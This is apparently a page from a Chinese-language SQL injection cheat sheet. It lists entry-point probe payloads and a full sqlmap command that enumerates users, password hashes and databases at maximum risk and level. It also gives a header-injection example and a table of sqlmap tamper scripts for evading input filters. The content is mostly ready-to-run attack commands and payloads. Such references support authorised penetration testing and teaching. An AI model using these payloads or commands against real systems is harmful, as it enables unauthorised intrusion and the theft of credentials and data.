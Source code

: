 # SQL 注入
一个SQL注入攻击由通过从客户端向应用程序输入数据的SQL查询的插入或“注入”组成

## 入口点侦测
侦测一个SQL注入的入口点
```
'
"
%27
" / %22
; / %3B
%%2727
%25%27
`+HERP
'||'DERP
'+'herp
' ' DERP
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
Wildcard (*)
```



## SQL 注入 使用SQLmap
SQLmap的基础参数
```
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

在用户代理/报头/参考页/Cookie中的自定义插入
```
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

通用篡改选项和篡改的列表
```
tamper=name_of_the_tamper
```

| Tamper | Description |
| --- | --- |
|apostrophemask.py | Replaces apostrophe character with its UTF-8 full width counterpart |
|apostrophenullencode.py | Replaces apostrophe character with its illegal double unicode counterpart|
|appendnullbyte.py | Appends encoded NULL byte character at the end of payload |
|base64encode.py | Base64 all characters in a given payload  |
|between.py | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #' |
|bluecoat.py | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator  |
|chardoubleencode.py | Double url-encodes all characters in a given payload (not processing already encoded) |
|commalesslimit.py | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'|
|commalessmid.py | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'|
|concat2concatws.py | Replaces instances like 'CONCAT(A, B)' with 'CONCAT_WS(MID(CHAR(0), 0, 0), A, B)'|